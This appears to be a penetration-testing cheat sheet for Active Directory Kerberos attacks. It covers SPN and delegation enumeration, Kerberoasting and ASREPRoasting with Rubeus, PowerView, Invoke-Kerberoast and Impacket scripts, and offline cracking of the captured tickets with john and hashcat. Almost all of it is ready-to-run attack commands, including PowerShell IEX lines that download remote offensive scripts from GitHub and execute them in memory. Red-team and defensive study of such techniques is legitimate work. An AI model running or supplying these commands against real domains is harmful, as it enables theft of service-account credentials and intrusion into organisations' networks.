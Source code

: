 # Kerberos Info Gathering
## Query SPNs
If you want to first only query registered SPNs to limit the noise, there are different methods.   
**CMD.exe**   
Using cmd.exe: (The following example searches all SPNs in the domain from MSSQL servers)   
`setspn -Q MSSQLSvc/*`   

Using cmd.exe on a foreign domain: (The following example searches for Hyper-V related SPNs)   
`setspn -Q *hyper*/* -T <domainname>`   

**Native PowerShell**   
```
$search = [adsisearcher]"(&(sAMAccountType=805306368)(servicePrincipalName=*))"
$search.PageSize = 10000
$spnusers = $search.FindAll()
```   
**BloodHound**   
Using BloodHound: (list all user accounts with an SPN)   
`MATCH (u:User {hasspn:true}) RETURN u`   
You can even expand the BloodHound query to include pathes to computers from these accounts:   
`MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p`   

## Get Kerberos Delegation Accounts
Requires AD Modules:   
`Get-ADObject -filter { (UserAccountControl -BAND 0x0080000) -OR (UserAccountControl -BAND 0x1000000) -OR (msDS-AllowedToDelegateTo -like '*') } -prop Name,ObjectClass,PrimaryGroupID,UserAccountControl,ServicePrincipalName,msDS-AllowedToDelegateTo`   

# Kerberos Attacks
## Kerberoasting
### From Windows
Against single user using Rubeus.exe:   
`.\Rubeus.exe kerberoast /user:svc_mssql /nowrap`   
`.\Rubeus.exe kerberoast /spn:"SPN" /nowrap /domain:windomain.local /dc:10.0.2.3`   

Using Powerview:   
``` 
IEX ((New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/4cedfa1c308a1bc37530725734290d506c0170dd/Recon/PowerView.ps1"))
Request-SPNTicket -SPN "<SPN>" -Format Hashcat
```     
Using Invoke-Kerberoast:    
`IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat Hashcat`   

### From Linux
Using GetUserSPN.py:   
`python3 GetUserSPNs.py domain.local/user1:p@ssw0rd -dc-ip 192.168.1.11 -request-user targetserviceuser`   
Kerberoast all SPNs (NOT OPSEC!!!):   
`proxychains GetUserSPNs.py windomain.local/user:Password123 -dc-ip 192.168.1.12 -request`   

### Cracking
`john --format=krb5tgs --wordlist=wordlist svc_mssql`   
`hashcat -a 0 -m 13100 svc_mssql wordlist`   

## ASREPRoast 
Query accounts for "do not require Kerberos pre-authentication":   
`([adsisearcher]"(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))").FindAll()`   
Find such users in BloodHound:   
`MATCH (u:User {dontreqpreauth:true}) RETURN u`   

If accounts do not require kerberos pre-authentication, the tool GetNPUsers.py can be used to do ASREPRoasting:   
`GetNPUsers.py -request domain.local/someaccount:`   

On Windows:   
`.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`   
`Get-ASREPHash -Username someuser123 -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)`   

### Cracking
`john --wordlist=passwords_kerb.txt hashes.asreproast`   
`hashcat --attack-mode 0 --hash-type 18200 hashes.asreproast /srv/wordlists/uncompressed/crackstation-human-only.txt --rules-file /srv/rules/nsa_500.txt`   
